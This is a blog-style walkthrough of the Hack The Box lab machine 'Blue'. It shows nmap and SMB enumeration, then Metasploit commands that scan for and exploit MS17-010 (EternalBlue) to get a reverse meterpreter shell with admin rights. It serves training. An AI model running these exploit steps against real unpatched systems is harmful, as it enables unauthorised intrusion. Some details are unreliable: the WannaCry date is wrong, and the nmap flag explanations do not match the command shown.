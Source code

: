 ```yaml
---
title: Blue Writeup/Walk through
date: 2025-03-12
tags:
  - writeup
  - walkthrough
  - hackthebox
---
```

Today a friend and I started our Hack the Box labs journey by completing the retired machine Blue. While it was really easy, we both learned some new things in regards to the *Eternal Blue* exploit. Below is our personal goals, goals of the machine, and walk through showing how we obtained the flags.
# Personal Goals
- Get flags in under 30 minuets
	- Accomplished
# Goals
- submit user flag
- submit root flag
# Blue Machine Write Up
## Summary of Eternal Blue
Blue is a machine on a popular cybersecurity training website called *Hack The Box*, also known as HTB. This machine is meant to teach the user how to exploit the common vulnerability called *Eternal Blue*, also known as MS17-010, which effected Microsoft Windows from Vista until Windows Server 2016. This exploit was also used in the *WannaCry* ransomware attack on June 27, 2017. There is a patch now and more recent systems are no longer effected from this vulnerability since Microsoft disables the protocol by default. However if and older machine is on the network and it has not received the patch for *Eternal Blue* it is still vulnerable.

## Connecting to the Machine
This will differ for everyone but since I try to keep my workspace as neat as possible and attempt to limit the number of terminals I have open at a given time I use `tmux` to spawn terminal's inside of terminals. Tmux is a terminal multiplexer that allows you to basically have a terminal inside of a terminal as I described above. To install tmux you will need to run the following command
- `sudo apt install tmux -y`
After installing tmux, to spawn a new terminal you will want to run a very simple command below
- `tmux`
Thats it, you are now in your terminal inside of a terminal. In this terminal you can do what ever you want. I use it to spawn my openvpn software in this case using the command below
- `sudo openvpn /path/to/.opvpn`
After running the command I press `CNTRL + B` and then the `D` key to disconnect from the tmux session. To get back to the session your vpn was in just use the command below with the session number you just detached from
- `tmux attach -t (session number)`
Now that we have that set up, we can move into scanning and doing some enumeration on this machine.

## Enumeration
We started off with basic enumeration. But first lets make sure our host machine is online by pinging it.
- `ping 10.10.10.40`
- ![Image Description](/images/Screenshot_2025-03-12_16-40-09.png)
### Nmap Scan
Now that we know the machine is online we can scan the machine using the below command.
- `nmap -Pn -sV -sS 10.10.10.40`
	- **-Pn** turns off host discovery, we do not need this as we already know our host is online
	- **-sVC** is for our service version scan, this will inform us of all the services versions when the scan is complete it will also provide the hostname of the system and the OS
	- **-sS** is for a TCP SYN scan
	- **-p 1-10000** only will scan ports 1-10000, in guided mode the task is only asking for ports that are not 5 digits long.
	- 
- !![Image Description](/images/Pasted%20image%2020250312164710.png)
Now that we have the Nmap scan complete lets look over our ports and see what is interesting to us.
- Port 135 MSRPC
	- Microsoft Remote Procedure Call. 
	- Allows for programs on different computers to communicate and execute functions or procedures with eachother
- Port 139 NetBIOS
	- Used for SMB communication
- Port 445
	- Used for SMB
The two ports that stood out the most to me are ports 139 and 445 since they are both used for SMB. Lets enumerate the SMB shares on this machine.

### SMB Enumeration
To start this I used `smbclient` to connect and list the shares on the machine. Below is the command I used to do that since you will need to say how many shares there are in the guided mode of this machine.
- `smbclient -L (machine IP)`
	- **-L** lists all the shares in SMB
- ![Image Description](/images/Pasted%20image%2020250312165347.png)
Now that we have that out of the way lets start the exploitation process of this machine

## Exploitation

### Checking to see if the machine is vulnerable
First we should see if the machine is even vulnerable to *Eternal Blue*.
- **Side note**: Even though we already know the machine is vulnerable to it, as a penetration tester you should **ALWAYS** scan the machine to see if it is vulnerable to anything like this before just going to exploit. This will save you time later on.
To do this we will use *metasploit* you can spawn your metasploit terminal by using the command below
- `msfconsole`
- ![Image Description](/images/Pasted%20image%2020250312165637.png)
After we have spawned metasploit we will search for our MS17-010 scanner by using the following command
- `search auxiliary eternal blue`
- ![Image Description](/images/Pasted%20image%2020250312165834.png)
The module we will select here is 5, to do so use the following command
- `use 5`
- ![Image Description](/images/Pasted%20image%2020250312165920.png)
After that we will want to see the options this gives us, to do so use the show options command below
- `show options`
- ![Image Description](/images/Pasted%20image%2020250312170020.png)
Now that we have that, lets set RHOSTS to our machines IP address so we can scan it using the following command.
- `set RHOSTS (machine IP)`
- ![Image Description](/images/Pasted%20image%2020250312170135.png)
Now that that is done, lets run our scanner
- `run`
- ![Image Description](/images/Pasted%20image%2020250312170223.png)
It looks like the machine is vulnerable to Eternal Blue! Now its time to actually exploit the machine.

### Running the exploit
The first thing we will need to do is find the module we want to use in metasploit. To do this we will use the below command.
- `search eternal blue`
- ![Image Description](/images/Pasted%20image%2020250312170459.png)
We will want to use the module that is called *windows/smb/ms17_010_eternalblue* to do so on my end I will run the below command.
- `use 1`
- ![Image Description](/images/Pasted%20image%2020250312170610.png)
Again we will want to show our options to see what needs to be configured.
- `show options`
- ![Image Description](/images/Pasted%20image%2020250312170702.png)
Time to configure the options, the only things that need to be configured are the *RHOSTS* and the *LHOST*. The *LHOST* is the VPN IP of **YOUR** attack machine. Follow the below commands to set up your exploit module.
- `set RHOSTS (machine IP)`
- Spawn a new terminal and run the below command
	- `ifconfig tun0`
		- Get the inet IP address
	- 
- `set LHOST (tun0 IP address)`
- Yours should look similar to the below but with your LHOST set
- ![Image Description](/images/Pasted%20image%2020250312171201.png)
Now that everything is configured, lets run our exploit
- `run`
- ![Image Description](/images/Pasted%20image%2020250312171358.png)
And now we have a meterpreter session on the victims computer! Lets spawn a shell.
- `shell`
- ![Image Description](/images/Pasted%20image%2020250312171521.png)
Now a quick whoami to see what user we are and to see the privileges we have.
- `whoami`
- ![Image Description](/images/Pasted%20image%2020250312171608.png)
We were given admin credentials, we have full control over our system. Now time to get those flags!
- User flag is stored at
	- **C:\Users\haris\Desktop**
- Root flag is stored at
	- **C:\Users\Administrator\Desktop**
Submit those flags and you have then PWND this machine!

# Summary of the Machine
While this machine is easy, it shows newcomers to cybersecurity the dangers of misconfigurations and how vulnerable an unpatched machine is. I hope this write up helped you and I hope you learned something from this.

